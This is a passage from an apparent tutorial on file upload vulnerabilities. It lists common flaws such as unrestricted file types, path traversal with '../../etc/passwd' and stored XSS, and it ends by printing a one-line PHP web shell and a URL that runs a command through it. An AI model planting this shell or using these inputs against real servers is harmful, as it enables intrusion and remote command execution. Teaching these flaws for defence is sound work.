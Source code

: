 2. **Backend Receives File**

* Parses the request
* Validates file type, size, and name
* Stores the file in a directory or database

3. **Optional Processing**

* Image resizing
* Virus scanning
* Metadata extraction

---

## 🧨 Common File Upload Vulnerabilities

### 1️⃣ **Unrestricted File Type**

* Server accepts `.php`, `.exe`, `.js`, etc.
* Attacker uploads a web shell or script

### 2️⃣ **No File Size Limit**

* Attacker uploads massive files → DoS (Denial of Service)

### 3️⃣ **Path Traversal**

* Filename like `../../etc/passwd` → overwrites system files

### 4️⃣ **MIME Type Spoofing**

* File claims to be an image but is actually a script

### 5️⃣ **Stored XSS via SVG or HTML**

* Malicious content embedded in uploaded files

### 6️⃣ **Direct Access to Upload Directory**

* Files served from `/uploads/` without validation → sensitive data exposure

---

## 🧰 Real-World Exploitation

* Uploading a `.php` file to a vulnerable server:

```php
<?php system($_GET['cmd']); ?>
```

* Accessing it via:

```
https://target.com/uploads/shell.php?cmd=whoami
```

